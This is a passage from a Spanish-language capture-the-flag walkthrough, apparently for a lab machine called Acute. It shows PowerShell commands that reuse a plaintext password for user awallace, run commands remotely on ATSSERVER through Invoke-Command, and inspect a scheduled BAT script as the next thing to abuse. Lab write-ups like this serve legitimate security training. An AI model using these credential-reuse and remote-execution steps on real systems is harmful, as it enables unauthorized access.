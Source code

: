 Desde la PowerShell Web Access crearemos un nuevo objeto con las credenciales del usuario que probaremos: _**awallace,**_ verificaremos que son correctas debido que se logra ejecutar el comando 'whoami' en el equipo _**ATSSERVER**_. Por lo tanto, este usuario reutiliza las credenciales obtenidas anteriormente.

{% code overflow="wrap" %}
```powershell
$SecPassword = ConvertTo-SecureString 'Password@123' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('acute\awallace',$SecPassword)

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { whoami }
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/3053_vmware_SgsuMu5Qhy.png" alt=""><figcaption></figcaption></figure>

### Abusing Cron Job - BAT file

Dado que ya disponemos de unas nuevas credenciales del usuario _**awallace**_, procederemos a enumerar los programas que dispone el equipo _**ATSSERVER**_. Entre los cuales aparece una carpeta sospechosa llamada "keepmeon".

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { ls C:\Progra~1 }
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/3054_vmware_gWNXqNri8r.png" alt=""><figcaption></figcaption></figure>

Revisando el directorio mencionado, verificamos que se encuentra un archivo (_**keepmeon.bat**_) que se trata de un script que se ejecuta cada 5 minutos sobre cualquier archivo que finalice por (.bat).

Este script es ejecutado solamente por el usuario Lois.

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { ls C:\Progra~1\keepmeon }

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { typeC:\Progra~1\keepmeon\keepmeon.bat }
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/3055_vmware_mWtgjqqY30.png" alt=""><figcaption></figcaption></figure>

Si volvemos a revisar el documento Word que nos descargamos al principio, en una de las secciones indica que el único usuario autorizado para modificar la membresía de grupos sobre los usuarios.

Además, aparece un mensaje mencionando un grupo llamado "Site Admin", lo cual nos parece algo extraño ya que no es un grupo común de AD.
